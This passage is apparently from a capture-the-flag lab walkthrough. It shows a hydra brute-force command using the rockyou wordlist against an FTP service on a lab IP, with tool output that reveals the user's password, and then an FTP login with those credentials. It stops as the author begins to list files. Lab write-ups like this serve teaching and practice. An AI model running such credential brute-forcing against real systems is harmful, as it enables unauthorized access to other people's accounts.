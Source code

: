 ```
chris
```

&#x20;

## Task 3 Hash cracking and brute-force

### FTP password

Using `hydra`, we can brute force the password for the user `chris`.

```
$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.80.123
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-13 13:41:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.80.123:21/
[21][ftp] host: 10.10.80.123   login: chris   password: crystal
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 6 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-13 13:42:52
```

Now we know that the password for user `chris` is `crystal`.

### Answer

```
crystal
```

&#x20;

### Zip file password

Let's login through FTP using those credentials.

```
$ ftp chris@10.10.80.123
Connected to 10.10.80.123.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Let's list out the contents.
